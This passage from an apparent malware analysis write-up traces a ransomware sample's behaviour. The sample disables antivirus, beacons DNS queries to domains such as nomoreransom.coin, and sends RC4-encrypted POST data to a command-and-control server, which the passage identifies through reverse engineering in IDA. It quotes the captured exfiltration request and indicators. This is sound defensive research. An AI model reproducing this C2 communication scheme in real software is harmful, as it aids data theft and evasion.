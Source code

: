 ![Antivirus processes to terminate](img/disable_antivirus.png?width=200px)

When persistence is established and anti-virus solutions are out of the way, the executable starts sending DNS requests every 2 to 3 seconds:

> nomoreransom.coin: type A, class IN  
> random.bit: type A, class IN  
> carder.bit: type A, class IN

Additionally, HTTP POST requests are observed to these domains:

> POST /curl.php?token=This%20.....
> m%20cannot%20be%20run%20in%20DOS%20mode.$   
> HTTP/1.1  
> Host: nomoreransom.coin  
> Content-Type: application/x-www-form-urlencoded  
> User-Agent: Mozilla/5.0  
> (Windows NT 6.1; WOW64)  
> AppleWebKit/537.36 (KHTML, like Gecko)  
> Chrome/55.0.2883.87 Safari/537.36  
> Content-Length: 5925  
> Cache-Control: no-cache  
> 
> data=mdU+mIEkDgfqAIOO+CErOIcj/44TH/51A4H

The base64 encoded body is encrypted and does not reveal any information. Encryption is likely applied to the body
to obfuscate communcation with a C2 server. The next step is to uncover which algorithm is used for this communication
between the ransomware binary and the C2 server.

After some more reverse engineering in [IDA](https://hex-rays.com/ida-free/), the greatest reversing tool in existence, 
the following functions have been narrowed down, which bear resemblance to an RC4 key scheduling algorithm (KSA),
as well as the pseudo-random generation algorithm (PRGA). The output of the KSA is used as input to the PRGA,
to generate a keystream. To obtain encrypted ciphertext, this keystream is XOR'ed with the plaintext. 
RC4 uses a substitution box of 256 elements which undergoes multiple permutations before
generating the keystream (notice the hex value of 100h = 256 decimal).
